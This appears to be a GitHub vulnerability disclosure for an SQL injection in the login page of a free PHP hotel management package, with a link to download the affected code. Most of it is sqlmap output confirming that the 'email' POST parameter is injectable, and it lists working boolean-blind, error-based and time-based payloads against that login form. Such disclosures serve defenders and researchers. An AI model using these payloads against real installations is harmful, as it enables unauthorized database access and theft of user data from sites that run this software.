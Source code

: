 # Sparkz-Hotel-Management-loginpage-Sqlinjection

## Sqlinjection location 

![image](https://user-images.githubusercontent.com/81155906/182821123-f13f0b22-c462-43b3-a824-d65712c6861b.png)
![origin_img_v2_f249919b-f4a9-4e83-a2d2-d597b17629fg](https://user-images.githubusercontent.com/81155906/182821160-484a411a-aff4-4a22-9e5f-e837d8b898d5.jpg)


#### Sqlmap Attack

![origin_img_v2_6c946478-9cfe-4737-ac4d-54a46ce54d8g](https://user-images.githubusercontent.com/81155906/182821264-f5ff7036-13e8-4119-a087-48c4cb9473e8.jpg)

```
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 484 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=1' AND 7629=(SELECT (CASE WHEN (7629=7629) THEN 7629 ELSE (SELECT 7247 UNION SELECT 6214) END))-- -&password=1&login=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=1' OR (SELECT 3597 FROM(SELECT COUNT(*),CONCAT(0x716a786271,(SELECT (ELT(3597=3597,1))),0x71716b6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- rpgH&password=1&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=1' AND (SELECT 8150 FROM (SELECT(SLEEP(5)))PeqI)-- PUWA&password=1&login=
---
[17:52:43] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.6.9, Apache 2.4.39
back-end DBMS: MySQL >= 5.0
```

## Code Download

https://www.sourcecodester.com/php/15551/multi-language-hotel-management-software-free-download-source-code.html
